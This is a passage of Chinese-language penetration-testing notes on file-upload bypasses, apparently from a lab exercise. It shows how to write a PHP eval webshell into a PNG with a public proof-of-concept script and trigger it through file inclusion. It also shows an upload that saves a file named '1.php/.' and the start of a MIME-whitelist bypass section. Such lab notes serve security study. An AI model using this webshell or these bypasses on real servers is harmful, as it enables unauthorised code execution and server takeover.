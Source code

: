 插件

```
https://github.com/hxer/imagecreatefrom-/blob/master/png/poc/poc_png.py
```



需要使用ps进行索引图片，才能写入木马

```
python2 poc_png.py -p "<?php eval($_POST["pass"]);?>"  R-C1.png -o 123.png
```



木马已经写进123.png

![image-20240423151520905](D:\Infiltration\笔记\note\图片\image-20240423151520905.png)





上传123.png，提示中有文件包含

![image-20240423152019176](D:\Infiltration\笔记\note\图片\image-20240423152019176.png)

访问文件包含路径，并用hakerbar进行POST传参phpinfo

![image-20240423152453615](D:\Infiltration\笔记\note\图片\image-20240423152453615.png)

### 函数缺陷

move_uploaded_file

条件：文件名可控



![image-20240423153456581](D:\Infiltration\笔记\note\图片\image-20240423153456581.png)

上传文件，保存名字：

```
1.php/.
```

![image-20240423153930813](D:\Infiltration\笔记\note\图片\image-20240423153930813.png)

访问路径，成功上传

![image-20240423153951200](D:\Infiltration\笔记\note\图片\image-20240423153951200.png)

### 数组绕过

![image-20240423162550929](D:\Infiltration\笔记\note\图片\image-20240423162550929.png)

MIME类型检查

```
$allow_type = array('image/jpeg','image/png','image/gif');
```
